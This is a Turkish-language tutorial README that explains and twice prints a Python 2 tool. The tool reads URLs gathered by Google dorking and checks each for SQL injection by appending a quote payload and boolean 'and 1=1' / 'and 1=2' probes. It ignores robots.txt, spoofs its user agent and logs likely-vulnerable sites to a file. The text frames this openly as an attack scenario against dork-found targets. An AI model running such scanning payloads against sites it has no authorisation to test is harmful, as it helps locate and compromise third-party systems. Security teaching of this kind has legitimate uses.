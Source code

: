 🕊 Bu döküman [**@KekikAkademi**](https://t.me/KekikAkademi "Telegram: @KekikAkademi") için oluşturulmuştur. ✌🏼
________________________________
# Py4H SQL Injection Dedektör
![Py4H SQL Injection Dedektör](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/10-Py4H-SQL-Injection-Dedektor/images/Py4H-SQL-Injection-Dedektor.png)

Merhaba arkadaşlar bu yazımızda  **Sql Injection**  zaafiyetini tespit etmek için ufak bir araç yapacağız. Daha önceki  [Google Searcher](https://github.com/KekikAkademi/KekikPython/tree/master/5-Py4H-Googler)  projemizde çıkan linkleri txt dosyasına kayıt etmiştik bu sefer txt dosyasındaki linkleri okuyarak sql injection açığı var mı yok mu bunu kontrol edeceğiz.

**Saldırı Senaryosu:**
X dorku ile bulduğumuz arama sonuçlarında çıkan her bir hedef linkte sql injection açığı için kontrol aşamalarından geçireceğiz. Tespit edilen linkler bize txt dosyasında sunulacak.

**Algoritma:**
1. Başla  
2. Link var ise al yok ise 5. adıma git  
3. Adim1() sql injection var ise yazdır 2. adıma git  
4. Adim2() sql injection var ise yazdır ve 2. adıma git  
5. Programı sonlandır

**Kod Paylaşımı: !!PYTHON 2!!**
İlk olarak genel ayarlarımızı yaptık her zamanki gibi. Bu sefer timeout süresinide değiştirdik çok beklemek istemeyiz çünkü.

	#! -*- coding: utf-8 -*-
	import mechanize,re,sys #kullanacağımız modülleri aktardık.
	br = mechanize.Browser() # tarayicimizi olusturduk..
	br.set_handle_robots(False) # robots.txt engellerini aşmak için false dedik
	br.addheaders = [('User-agent', 'Mozilla/5.0 (compatible; Konqueror/3.5; Linux) KHTML/3.5.5 (like Gecko) (Kubuntu)')] # header ekledik
	mechanize._sockettimeout._GLOBAL_DEFAULT_TIMEOUT = 5 # timeout süresini belirledik

Bu kısımda standart birşey yaptık arkadaşlar. Aracımızı bir başkası kullandığı zaman nasıl kullanıldığı hakkında yardımcı olmak adına fonksiyonumuzu oluşturduk.

	def yardim(): #yardim fonksiyonumuz
		print "[!] Örnek kullanım:\n>> sql-i.py -i linkler.txt -o sonuclar.txt" # örnek kullanım..
		print "\n[+] = sql injection var demek!\n[?] = sql injection olabilir demek!\n[??] = blind sql injection olabilir demek!"

1.Adım dediğimiz kısım arkadaşlar. Herkesin yaptığı gibi en basit sql injection hatası var mı yok mu diyerek ‘a ifadesini koyduk linklerimizin sonuna..

	def Adim1(link): #Adım 1
		istek = br.open(link) # gelen linke istek gönderilir..
		kaynak_kod = istek.read() # açılan linkin  kaynak kodu alınır
		istek2 = br.open(link+"'a") # aynı linke 'a eklenerek 2. istek atılır 
		kaynak_kod2 = istek2.read() # açılan sitenin kaynak kodu 2. kez alınır
		if kaynak_kod != kaynak_kod2: # alınan 2 kaynak kod eşit değil ise 
			if re.findall('You have an error in your SQL',kaynak_kod2): # 2. aldığımız kaynak kodda şu cümle aranır
				print "[+] "+link # varsa ekrana yazdır
				dosya2.write(link+"\n") # ve dosyamıza yazdırırız
				pass # geç
			else: # 2.kaynak kod da sihirli sözcük yok ise
				print "[?] "+link # Sql injection olabilir denilir..
				dosya2.write(link+"\n") # ve dosyamıza yazdırırız
				pass # geç
		else: # eğer karşılaştırılan 2 kaynak kod da aynı ise
			Adim2(link) # Adım 2 ye gider linkimiz..

2.Adım dediğimiz bu kısımda eğer ‘a diyerek hata alamıyorsak mantıksal sorgu ile birde şansımızı 2. adımda deneyeceğiz arkadaşlar..

	def Adim2(link): # Adım 2
		#print "Adım 2 ye geçildi !!"
		istek3 = br.open(link+"+and+1=1") # linkimiz 3. istekde mantıksal sorgu ile tekrar açıldı
		kaynak_kod3 = istek3.read() # açılan sitenin kaynak kodu alındı
		istek4 = br.open(link+"+and+1=2") # 4. istekte yine ilk mantıksal sorguya ters bir mantık ile tekrar açıldı
		kaynak_kod4 = istek4.read() # açılan sitenin kaynak kodu alındı
		if kaynak_kod3 != kaynak_kod4: # kaynak kodlar karşılaştırıldı aynı değil ise !
			print "[??] "+link # Blind sql injection olabilir dendi..
			dosya2.write(link+"\n") # ve dosyamıza yazıldı
			pass # geç
		else: # kaynak kodlar aynı ise
			pass # geç

Ve son kısım arkadaşlar burası kodlarımızın beyni oluyor yani bütün iş burada dönüyor daha önceki fonksiyonlarımızı buradan çağırıyoruz gerekli hataları burada yok sayıyoruz(bypass).Bu kısımda açıklama satırlarında da okuyacağınız gibi txt den aldığımız linkleri gerekli fonksiyonumuza yollayarak yolculuğa çıkarıyoruz aynı zamanda bol bol hataları yok saymak adına try except metodunu kullanıyoruz.

	try: # Hatalar için try kullanıyoruz
		if sys.argv[1] == "-i" and sys.argv[3] == "-o": # argümanlarda -i ve -o var mı kontrol ettik eğer var ise
			i_dosya = sys.argv[2] # argümanlarımızı alıyoruz
			o_dosya = sys.argv[4] # argümanlarımızı alıyoruz
			dosya = open(i_dosya,"r") # dosyamızı okumak adına açtık
			kelimeler = dosya.read() # okuduk
			linkler = kelimeler.split("\n") # listemize aktardık split ile parçalayarak..
			dosya2 = open(o_dosya,"a") # 2. dosyamızı açtık üzerine eklemeli olarak yazmak için !		
			for a in linkler: # linklerimizi for döngüsünde döküyoruz
				try: # yine aynı şekil sitelerin güvenlik duvarlarının verdikleri cevaplardan programımızın hata vermemesi için try kullandık
					Adim1(a) # Adim 1 e linkimizi yolladık
				except:
					pass # Hata çıkarsa geç sıradaki linke 
			print "[+] İslem bitmistir.." # işlem bittiğinde
		else: # argümanlar yok ise
			yardim() # yardim fonksiyonunu göster kullanma kılavuzu
	except: # Hata çıkarsa
		yardim() # yardim fonksiyonumuzu göster..

Ve arkadaşlar projemizin sonuna gelmiş bulunmaktayız. Kodların hepsine aşşağıdan ulaşabilirsiniz.

	#! -*- coding: utf-8 -*-
	import mechanize,re,sys #kullanacağımız modülleri aktardık.
	br = mechanize.Browser() # tarayicimizi olusturduk..
	br.set_handle_robots(False) # robots.txt engellerini aşmak için false dedik
	br.addheaders = [('User-agent', 'Mozilla/5.0 (compatible; Konqueror/3.5; Linux) KHTML/3.5.5 (like Gecko) (Kubuntu)')] # header ekledik
	mechanize._sockettimeout._GLOBAL_DEFAULT_TIMEOUT = 5 # timeout süresini belirledik

	def yardim(): #yardim fonksiyonumuz
		print "[!] Örnek kullanım:\n>> sql-i.py -i linkler.txt -o sonuclar.txt" # örnek kullanım..
		print "\n[+] = sql injection var demek!\n[?] = sql injection olabilir demek!\n[??] = blind sql injection olabilir demek!"
	def Adim2(link): # Adım 2
		#print "Adım 2 ye geçildi !!"
		istek3 = br.open(link+"+and+1=1") # linkimiz 3. istekde mantıksal sorgu ile tekrar açıldı
		kaynak_kod3 = istek3.read() # açılan sitenin kaynak kodu alındı
		istek4 = br.open(link+"+and+1=2") # 4. istekte yine ilk mantıksal sorguya ters bir mantık ile tekrar açıldı
		kaynak_kod4 = istek4.read() # açılan sitenin kaynak kodu alındı
		if kaynak_kod3 != kaynak_kod4: # kaynak kodlar karşılaştırıldı aynı değil ise !
			print "[??] "+link # Blind sql injection olabilir dendi..
			dosya2.write(link+"\n") # ve dosyamıza yazıldı
			pass # geç
		else: # kaynak kodlar aynı ise
			pass # geç
	def Adim1(link): #Adım 1
		istek = br.open(link) # gelen linke istek gönderilir..
		kaynak_kod = istek.read() # açılan linkin  kaynak kodu alınır
		istek2 = br.open(link+"'a") # aynı linke 'a eklenerek 2. istek atılır 
		kaynak_kod2 = istek2.read() # açılan sitenin kaynak kodu 2. kez alınır
		if kaynak_kod != kaynak_kod2: # alınan 2 kaynak kod eşit değil ise 
			if re.findall('You have an error in your SQL',kaynak_kod2): # 2. aldığımız kaynak kodda şu cümle aranır
				print "[+] "+link # varsa ekrana yazdır
				dosya2.write(link+"\n") # ve dosyamıza yazdırırız
				pass # geç
			else: # 2.kaynak kod da sihirli sözcük yok ise
				print "[?] "+link # Sql injection olabilir denilir..
				dosya2.write(link+"\n") # ve dosyamıza yazdırırız
				pass # geç
		else: # eğer karşılaştırılan 2 kaynak kod da aynı ise
			Adim2(link) # Adım 2 ye gider linkimiz..

	try: # Hatalar için try kullanıyoruz
		if sys.argv[1] == "-i" and sys.argv[3] == "-o": # argümanlarda -i ve -o var mı kontrol ettik eğer var ise
			i_dosya = sys.argv[2] # argümanlarımızı alıyoruz
			o_dosya = sys.argv[4] # argümanlarımızı alıyoruz
			dosya = open(i_dosya,"r") # dosyamızı okumak adına açtık
			kelimeler = dosya.read() # okuduk
			linkler = kelimeler.split("\n") # listemize aktardık split ile parçalayarak..
			dosya2 = open(o_dosya,"a") # 2. dosyamızı açtık üzerine eklemeli olarak yazmak için !		
			for a in linkler: # linklerimizi for döngüsünde döküyoruz
				try: # yine aynı şekil sitelerin güvenlik duvarlarının verdikleri cevaplardan programımızın hata vermemesi için try kullandık
					Adim1(a) # Adim 1 e linkimizi yolladık
				except:
					pass # Hata çıkarsa geç sıradaki linke 
			print "[+] İslem bitmistir.." # işlem bittiğinde
		else: # argümanlar yok ise
			yardim() # yardim fonksiyonunu göster kullanma kılavuzu
	except: # Hata çıkarsa
		yardim() # yardim fonksiyonumuzu göster..

Not: Projemiz Python 2.x sürümü ile kodlanmış olup en çok sevdiğim modüllerden birisi olan **mechanize** modülünü kullandık. Mechanize modülü, standart kütüphanelerde olmadığı için ayrıca yüklemeniz gerekmektedir.

[Kaynak](http://python4hackers.com/python-sql-injection-tools/py4h-sql-injection-dedektor.html "Saygı ve Özlemle..")
________________________________
📃 **Yandex.Disk Bünyemizde 900GB veri olmuştur.**

_Paylaşılan Kursların Tümünü_ [**@KekikKahve**](https://t.me/KekikKahve) _Grubu notlarından Çağırabilirsiniz.._

🕊️ Bize **oy verip** _paylaşarak_ destek olmaya ne dersin? ✌🏼
#
> Bu readme sayfası oluşturulurken [prose.io](http://prose.io/ "prose.io") ve [stackedit.io](https://stackedit.io/app "stackedit.io") araçlarından yardım alınmıştır..
> Emojiler için [webfx](https://www.webfx.com/tools/emoji-cheat-sheet/ "Emoji Cheat Sheet") sayfası kullanılmıştır.